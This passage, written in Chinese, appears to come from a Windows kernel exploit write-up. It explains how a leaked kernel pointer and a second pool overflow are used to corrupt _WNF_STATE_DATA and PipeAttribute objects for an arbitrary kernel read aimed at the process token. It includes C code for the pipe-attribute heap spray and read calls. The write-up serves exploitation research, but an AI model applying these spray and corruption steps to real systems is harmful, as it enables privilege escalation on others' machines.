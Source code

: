 现在我们已经获得了内核指针泄露，我们希望获得任意读取能力以获取令牌地址。为此，我们可以第二次触发漏洞来覆盖第二个_WNF_STATE_DATA  
数据对象。和之前一样，我们将喷射_WNF_STATE_DATA  
,通过释放每个交替对象来制造空洞，然后触发漏洞导致溢出并破坏相邻的_WNF_STATE_DATA  
对象。但这次，我们将喷射PipeAttribute  
,并使用被破坏的_WNF_STATE_DATA  
来破坏相邻的PipeAttribute  
结构。  
  
PipeAttribute  
任意读取技术是由 Corentin Bayet 和 Paul Fariello 在他们的论文  
Scoop the Windows 10 pool!  
中提出的。当创建管道时，用户可以添加属性，这些属性作为键值对存储在链表中。PipeAttribute  
是一个可变大小的结构，分配在分页池中，具有以下形式：  
```
struct PipeAttribute { 
    LIST_ENTRY list; 
    char * AttributeName; 
    uint64_t AttributeValueSize; 
    char * AttributeValue; 
    char data[0];
}
```  
  
为了准备喷射，我们首先需要创建管道：  
```
    printf("[+] Creating pipe objects\n");
    for (int i = 0; i < NUM_PIPEATTR; i++) {
        ret = CreatePipe((PHANDLE)&ReadPipeArr[i], (PHANDLE)&WritePipeArr[i], NULL, 0x0);
        if (ret == 0) {
            cout << "CreatePipe failed! error=" << GetLastError() << endl;
            return -1;
        }
    }
```  
  
为了喷射PipeAttribute  
对象，我们可以执行以下操作：  
```
    memset(PipeData, 0x43, 0x20); 
    memset(PipeData+0x21, 0x43, 0x40);
    printf("[+] Spraying pipe_attribute\n"); 
    for (int i = 0; i < NUM_PIPEATTR; i++) {
        ret = NtFsControlFile(WritePipeArr[i], NULL, NULL, NULL, &status, 0x11003c, PipeData, (0x1000-0x30), PipeOutput, 0x100);
        if (ret != 0x0) {
            cout << "NtFsControlFile pipe attribute failed! error=" << GetLastError() << endl;
            return -1;
        }
    }
```  
  
要从PipeAttribute  
中读取数据，我们可以使用控制码 0x110038 调用NtFsControlFile  
。这将返回大小为AttributeValueSize  
的AttributeValue  
给用户。需要注意的是，如果用户再次使用控制码 0x11003c 调用NtFsControlFile  
来修改AttributeValue  
，旧的PipeAttribute  
结构将被释放，并由新的结构取代。  
```
    ret = NtFsControlFile(WritePipeArr[i], NULL, NULL, NULL, &status, 0x110038, PipeName, len, PipeData, 0x1000);
```  
  